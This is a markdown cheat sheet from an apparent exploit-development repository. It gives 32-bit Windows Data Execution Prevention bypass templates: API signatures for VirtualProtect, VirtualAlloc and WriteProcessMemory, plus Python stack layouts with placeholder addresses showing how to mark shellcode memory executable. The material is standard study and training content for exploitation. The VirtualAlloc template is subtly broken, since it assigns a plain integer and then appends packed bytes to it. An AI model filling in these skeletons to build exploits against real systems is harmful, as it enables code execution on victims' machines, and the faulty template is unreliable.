 # Skeletons

---

### Table of Contents
- [Data Execution Prevention Bypass for 32bit](#data-execution-prevention-bypass-for-32bit)
  * [VirtualProtect](#virtualprotect)
  * [VirtualAlloc](#virtualalloc)
  * [WriteProcessMemory](#writeprocessmemory)

---

## Data Execution Prevention Bypass for 32bit
Data Execution Prevention (DEP) related stuff, with focus 32bit.

### VirtualProtect
- See [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

```c
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

```python
vp = pack('<L', 0x41414141)   # VirtualProtect addy
vp += pack('<L', 0x42424242)  # shellcode return addy to return to, after VirtualProtect was called
vp += pack('<L', 0x43434343)  # lpAddress ---> same as above
vp += pack('<L', 0x44444444)  # dwSize ---> size of shellcode (0x400 or something like that)
vp += pack('<L', 0x45454545)  # flNewProtect ---> 0x40
vp += pack('<L', 0x46464646)  # lpflOldProtect ---> some writable memory address
```

### VirtualAlloc
- See [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

```python
va = 0x41414141   # VirtualAlloc addy
va += pack('<L', 0x42424242)  # shellcode return addy to return to, after VirtualAlloc was called
va += pack('<L', 0x43434343)  # lpAddress ---> shellcode addy (same as above)
va += pack('<L', 0x44444444)  # dwSize ---> 0x1
va += pack('<L', 0x45454545)  # flAllocationType ---> 0x1000
va += pack('<L', 0x46464646)  # flProtect ---> 0x40
```

### WriteProcessMemory
- See [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

```python
wpm = pack('<L', 0x41414141)   # WriteProcessMemory addy
wpm += pack('<L', 0x42424242)   # shellcode return addy to return to, after WriteProcessMemory was called
wpm += pack('<L', 0xffffffff)   # hProcess ---> pseudo Process handle ---> -1
wpm += pack('<L', 0x44444444)   # lpBaseAddress ---> addy of code cave
wpm += pack('<L', 0x45454545)   # lpBuffer ---> shellcode addy
wpm += pack('<L', 0x46464646)   # nSize ---> shellcode size
wpm += pack('<L', 0x47474747)   # lpNumberOfBytesWritten ---> writable memory addy
```
